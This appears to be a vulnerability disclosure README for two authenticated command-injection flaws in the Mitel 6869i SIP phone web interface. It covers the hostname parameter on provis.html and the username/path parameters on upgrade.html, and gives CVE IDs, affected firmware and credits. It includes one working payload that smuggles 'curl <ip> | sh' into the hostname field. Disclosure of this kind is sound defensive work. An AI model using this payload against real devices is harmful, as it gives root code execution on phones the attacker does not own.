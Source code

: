 # Mitel 6869i  4.5.0.41, 5.0.0.1018
Multiple firmware version (4.5.0.41, 5.0.0.1018) of the Mitel 6869i SIP Phone were found to be vulnerable to a authenticated remote command execution (command injection) vulnerability. The web application hosted by the device, fails to properly sanitize user supplied Input resulting in the ability to execute arbitrary commands.

## Authenticated Remote Command Execution (provis)
The Mitel 6869i SIP Phone, firmware version 4.5.0.41, 5.0.0.1018, and earlier fail to properly sanitize user supplied input. The 'Network Settings' (`provis.html`) page does not perform sanitization the ``hostname`` parameter prior to writing the contents to the local configuration file ``/nvdata/etc/local.cfg``.

On devices boot, it is assumed that the ``/nvdata/etc/local.cfg``, or another configuration file containing the modified hostname parameter Is used as apart of a shell script.

By submitting a specially crafted HTTP POST request to the ``/provis.html`` endpoint containing certain characters, arbitrary commands under the user context of root can be executed.

During the boot process, the ``hostname`` parameter is eventually read into a shell script without sanitization, resulting in code execution. For the device to be functional during and after execution, the original `'udhcpc'` command must be set to its original state with any trailing data being nullified.

Using the payload ``QWERTY -t 302400 -T 6 -b -a -i eth0 -s /usr/share/udhcpc/default.script -p /var/run/udhcpc.eth.pid; curl <ip> | sh #`` In the ``hostname`` parameter, the original ``udhcpc`` command is completed, allowing any additional commands to succeed.

A full demonstration against the Mitel 6869i SIP Phone 4.5.0.41 can be viewed on YouTube, at https://www.youtube.com/watch?v=I9TQqfP5qzM.

### Affected Assets
Affected assets are based on tested firmware versions. It's possible that other versions may contain the same vulnerability. 
**REV00 6869i 4.5.0.41**
- https://www.mitel.com/-/media/mitel/file/zip/open-solutions/6869/58015546rev00450416869i.zip?modified=20180425183828

**REV03 6869i 5.0.0.1018 SP1**
- https://www.mitel.com/-/media/mitel/file/zip/open-solutions/6869/58015373rev035001018sp16869i.zip?modified=20180425183909

### CVE-ID
CVE-2024-37569

### Credit
Kyle Burns (kburns@packetlabs.net), Eric Salario (esalario@packetlabs.net), Michael Alampi (malampi@packetlabs.net) 

## Authenticated Remote Command Execution (firmware)
The Mitel 6869i SIP Phone, firmware version 4.5.0.41 fails to properly sanitize user supplied input. The 'Manual Firmware Update' (`upgrade.html`) page does not perform sanitization the `username` and `path` parameter prior to appending the flags to the busybox `ftpget` command. 

![source](images/01.png)

By sending a specially crafted HTTP POST request containing command substitution syntax (`$()`) to the endpoint `upgrade.html` arbitrary commands can be executed.  

![source](images/02.png)

### Affected Assets
Affected assets are based on tested firmware versions. It's possible that other versions may contain the same vulnerability. 
**REV03 6869i 5.0.0.1018 SP1**
- https://www.mitel.com/-/media/mitel/file/zip/open-solutions/6869/58015373rev035001018sp16869i.zip?modified=20180425183909

### CVE-ID
CVE-2024-37570

### Credit
Kyle Burns (kburns@packetlabs.net)
